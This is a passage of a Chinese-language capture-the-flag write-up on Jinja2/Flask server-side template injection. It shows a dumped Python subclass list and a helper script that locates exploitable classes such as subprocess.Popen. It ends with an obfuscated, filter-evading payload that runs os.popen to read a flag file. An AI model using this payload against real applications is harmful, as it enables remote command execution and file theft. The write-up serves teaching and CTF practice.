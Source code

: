 ```py
>, <class 'gettext.NullTranslations'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'werkzeug.routing.converters.BaseConverter'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'werkzeug.routing.rules.RulePart'>, <class 'werkzeug.routing.rules.RuleFactory'>, <class 'werkzeug.routing.rules.RuleTemplate'>, <class 'werkzeug.routing.matcher.State'>, <class 'werkzeug.routing.matcher.StateMachineMatcher'>, <class 'werkzeug.routing.map.Map'>, <class 'werkzeug.routing.map.MapAdapter'>, <class '_csv.Dialect'>, <class '_csv.reader'>, <class '_csv.writer'>, <class 'csv.Dialect'>, <class 'csv.DictReader'>, <class 'csv.DictWriter'>, <class 'csv.Sniffer'>, <class 'pathlib._Flavour'>, <class 'pathlib._Accessor'>, <class 'pathlib._Selector'>, <class 'pathlib._TerminatingSelector'>, <class 'pathlib.PurePath'>, <class 'zipfile.ZipInfo'>, <class 'zipfile.LZMACompressor'>, <class 'zipfile.LZMADecompressor'>, <class 'zipfile._SharedFile'>, <class 'zipfile._Tellable'>, <class 'zipfile.ZipFile'>, <class 'zipfile.Path'>, <class 'textwrap.TextWrapper'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.MetaPathFinder'>, <class 'importlib.abc.PathEntryFinder'>, <class 'importlib.abc.ResourceReader'>, <class 'importlib.metadata.Sectioned'>, <class 'importlib.metadata.Deprecated'>, <class 'importlib.metadata.FileHash'>, <class 'importlib.metadata.Distribution'>, <class 'importlib.metadata.DistributionFinder.Context'>, <class 'importlib.metadata.FastPath'>, <class 'importlib.metadata.Lookup'>, <class 'importlib.metadata.Prepared'>, <class 'blinker._utilities.Symbol'>, <class 'blinker.base.Signal'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class '_pickle.Pdata'>, <class '_pickle.PicklerMemoProxy'>, <class '_pickle.UnpicklerMemoProxy'>, <class '_pickle.Pickler'>, <class '_pickle.Unpickler'>, <class 'pickle._Framer'>, <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class 'jinja2.bccache.Bucket'>, <class 'jinja2.bccache.BytecodeCache'>, <class 'jinja2.utils._MissingType'>, <class 'jinja2.utils.LRUCache'>, <class 'jinja2.utils.Cycler'>, <class 'jinja2.utils.Joiner'>, <class 'jinja2.utils.Namespace'>, <class 'jinja2.nodes.EvalContext'>, <class 'jinja2.nodes.Node'>, <class 'jinja2.visitor.NodeVisitor'>, <class 'jinja2.idtracking.Symbols'>, <class 'jinja2.compiler.MacroRef'>, <class 'jinja2.compiler.Frame'>, <class 'jinja2.runtime.TemplateReference'>, <class 'jinja2.runtime.Context'>, <class 'jinja2.runtime.BlockReference'>, <class 'jinja2.runtime.LoopContext'>, <class 'jinja2.runtime.Macro'>, <class 'jinja2.runtime.Undefined'>, <class 'jinja2.lexer.Failure'>, <class 'jinja2.lexer.TokenStreamIterator'>, <class 'jinja2.lexer.TokenStream'>, <class 'jinja2.lexer.Lexer'>, <class 'jinja2.parser.Parser'>, <class 'jinja2.environment.Environment'>, <class 'jinja2.environment.Template'>, <class 'jinja2.environment.TemplateModule'>, <class 'jinja2.environment.TemplateExpression'>, <class 'jinja2.environment.TemplateStream'>, <class 'jinja2.loaders.BaseLoader'>, <class 'flask.sansio.scaffold.Scaffold'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous._json._CompactJSON'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.sansio.blueprints.BlueprintSetupState'>]   
'''
# 在这里添加可以利用的类，下面会介绍这些类的利用方法
userful_class = ['linecache', 'os._wrap_close', 'subprocess.Popen', 'warnings.catch_warnings', '_frozen_importlib._ModuleLock', '_frozen_importlib._DummyModuleLock', '_frozen_importlib._ModuleLockManager', '_frozen_importlib.ModuleSpec']

pattern = re.compile(r"'(.*?)'")
class_list = re.findall(pattern, data)
for c in class_list:
    for i in userful_class:
        if i in c:
            print(str(class_list.index(c)) + ": " + c)

```
得到了索引号  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250305191556.png)  
最终payload:  
```py
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubcl"+"asses\x5f\x5f"]()[240]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["eval"]("\x5f\x5fimport\x5f\x5f('o'+'s').popen('cat /fl'+'ag').read()")}}
```